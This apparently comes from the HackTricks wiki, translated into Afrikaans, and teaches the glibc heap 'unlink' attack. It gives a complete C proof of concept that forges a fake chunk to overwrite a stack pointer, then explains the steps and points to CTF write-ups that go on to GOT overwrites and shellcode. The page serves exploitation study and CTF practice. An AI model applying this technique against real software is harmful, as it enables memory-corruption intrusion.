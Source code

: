 # Unlink Aanval

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Ekspert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Ekspert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basiese Inligting

Toe hierdie aanval ontdek is, het dit meestal 'n WWW (Write What Where) toegelaat, egter, sommige **kontroles is bygevoeg** wat die nuwe weergawe van die aanval meer interessant, meer kompleks en **onbruikbaar** gemaak het.

### Kode Voorbeeld:

<details>

<summary>Kode</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
size_t prev_size;
size_t size;
struct chunk_structure *fd;
struct chunk_structure *bk;
char buf[10];               // padding
};

int main() {
unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x8000);
chunk2 = malloc(0x8000);
printf("Stack pointer to chunk1: %p\n", &chunk1);
printf("Chunk1: %p\n", chunk1);
printf("Chunk2: %p\n", chunk2);

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->size = 0x8000;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);
printf("Chunk1: %p\n", chunk1);
printf("Chunk1[3]: %x\n", chunk1[3]);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;

printf("%s\n", data);

return 0;
}

```
</details>

* Die aanval werk nie as tcaches gebruik word nie (na 2.26)

### Doel

Hierdie aanval maak dit moontlik om **'n wysiger na 'n stuk te verander om 3 adresse voor homself te wys**. As hierdie nuwe ligging (omgewing van waar die wysiger geleë was) interessante goed het, soos ander beheerde allokasies / stapel..., is dit moontlik om dit te lees/oor te skryf om 'n groter skade te veroorsaak.

* As hierdie wysiger in die stapel geleë was, omdat dit nou na 3 adresse voor homself wys en die gebruiker dit potensieel kan lees en verander, sal dit moontlik wees om sensitiewe inligting van die stapel te lek of selfs die terugadres (miskien) te verander sonder om die kanarie te raak.
* In die geval van CTF voorbeelde, is hierdie wysiger geleë in 'n reeks wysigers na ander allokasies, daarom, om dit na 3 adresse voor te laat wys en in staat te wees om dit te lees en te skryf, is dit moontlik om die ander wysigers na ander adresse te laat wys.\
Aangesien die gebruiker ook die ander allokasies kan lees/skryf, kan hy inligting lek of nuwe adresse in arbitrêre plekke oorskryf (soos in die GOT).

### Vereistes

* Sommige beheer in 'n geheue (bv. stapel) om 'n paar stukke te skep wat waardes aan sommige van die eienskappe gee.
* Stapellek om die wysigers van die valse stuk in te stel.

### Aanval

* Daar is 'n paar stukke (stuk1 en stuk2)
* Die aanvaller beheer die inhoud van stuk1 en die kopstukke van stuk2.
* In stuk1 skep die aanvaller die struktuur van 'n valse stuk:
* Om beskermings te omseil, maak hy seker dat die veld `size` korrek is om die fout te vermy: `corrupted size vs. prev_size while consolidating`
* en die velde `fd` en `bk` van die valse stuk wys na waar die stuk1 wysiger in die geheue gestoor is met offsets van -3 en -2 onderskeidelik, sodat `fake_chunk->fd->bk` en `fake_chunk->bk->fd` na 'n posisie in geheue (stapel) wys waar die werklike stuk1 adres geleë is:

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* Die kopstukke van die stuk2 word gewysig om aan te dui dat die vorige stuk nie gebruik word nie en dat die grootte die grootte van die valse stuk bevat.
* Wanneer die tweede stuk vrygestel word, word hierdie valse stuk ontkoppel:
* `fake_chunk->fd->bk` = `fake_chunk->bk`
* `fake_chunk->bk->fd` = `fake_chunk->fd`
* Voorheen is dit gemaak dat `fake_chunk->fd->bk` en `fake_chunk->bk->fd` na dieselfde plek wys (die ligging in die stapel waar `stuk1` gestoor was, so dit was 'n geldige gekoppelde lys). Aangesien **albei na dieselfde ligging wys**, sal slegs die laaste een (`fake_chunk->bk->fd = fake_chunk->fd`) **effek** hê.
* Dit sal **die wysiger na stuk1 in die stapel oorskryf na die adres (of bytes) wat 3 adresse voor in die stapel gestoor is**.
* Daarom, as 'n aanvaller die inhoud van die stuk1 weer kan beheer, sal hy in staat wees om **binne die stapel te skryf**, wat hom potensieel in staat stel om die terugadres oor te skryf en die waardes en punte van plaaslike veranderlikes te verander. Selfs om weer die adres van stuk1 wat in die stapel gestoor is na 'n ander ligging te verander waar, as die aanvaller weer die inhoud van stuk1 kan beheer, hy oral kan skryf.
* Let daarop dat dit moontlik was omdat die **adresse in die stapel gestoor is**. Die risiko en uitbuiting mag afhang van **waar die adresse na die valse stuk gestoor word**.

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## Verwysings

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)
* Alhoewel dit vreemd sou wees om 'n unlink aanval selfs in 'n CTF te vind, hier is 'n paar skrywe waar hierdie aanval gebruik is:
* CTF voorbeeld: [https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html)
* In hierdie voorbeeld, in plaas van die stapel, is daar 'n reeks malloc'ed adresse. Die unlink aanval word uitgevoer om 'n stuk hier te kan allokeer, en dus in staat te wees om die wysigers van die reeks malloc'ed adresse te beheer. Dan is daar 'n ander funksionaliteit wat toelaat om die inhoud van stukke in hierdie adresse te verander, wat toelaat om adresse na die GOT te wys, funksie adresse te verander om lekke te kry en RCE.
* Nog 'n CTF voorbeeld: [https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html](https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html)
* Net soos in die vorige voorbeeld, is daar 'n reeks adresse van allokasies. Dit is moontlik om 'n unlink aanval uit te voer om die adres na die eerste allokasie 'n paar posisies voor die begin van die reeks te laat wys en hierdie allokasie in die nuwe posisie oor te skryf. Daarom is dit moontlik om wysigers van ander allokasies oor te skryf om na die GOT van atoi te wys, dit te druk om 'n libc lek te kry, en dan atoi GOT met die adres na 'n een gadget oor te skryf.
* CTF voorbeeld met aangepaste malloc en vry funksies wat 'n kwesbaarheid baie soortgelyk aan die unlink aanval misbruik: [https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html)
* Daar is 'n oorgang wat toelaat om die FD en BK wysigers van aangepaste malloc te beheer wat (aangepas) vrygestel sal word. Boonop het die heap die exec bit, so dit is moontlik om 'n heap adres te lek en 'n funksie van die GOT na 'n heap stuk met 'n shellcode aan te dui om uit te voer.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
